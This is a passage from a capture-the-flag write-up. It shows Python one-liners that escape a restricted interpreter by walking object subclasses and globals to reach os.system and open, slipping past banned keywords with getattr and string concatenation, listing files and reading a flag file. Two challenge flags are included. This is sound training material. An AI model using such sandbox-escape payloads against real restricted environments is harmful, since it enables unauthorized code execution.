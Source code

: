The only new command that is blocked that interests us are `read` and `sys`.

We can use getattr to access our banned commands.

We execute our `ls` to find the name of the flag file:
```py
getattr(list(().__class__.__bases__[0].__subclasses__()[{99}].__init__.__globals__.values())[8].modules["o"+"s"],"sy"+"stem")("ls")
```

And then we execute read on our file:
```py
list(().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__.values())[5]["pri"+"nt"](getattr(list(().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__.values())[5]["op"+"en"]("b49ddf352c9d2cdf7b9cf26dfeff15ad5336944e772b9d0190095be946fe8af9.txt","r"),"re"+"ad")())
```

Done! We have our flag "`kqctf{0h_h0w_1_w4n7_70_br34k_fr33_2398d89vj3nsoicifh3bdoq1b39049v}`"

## digitalocean

**Challenge**

**WriteUp**

It’s another sponsored message, we watch the video and we get the flag.

<img src="digitalocean.png" />

Done! We have our flag "`kqctf{digital_ocean_is_phenom3nal}`"

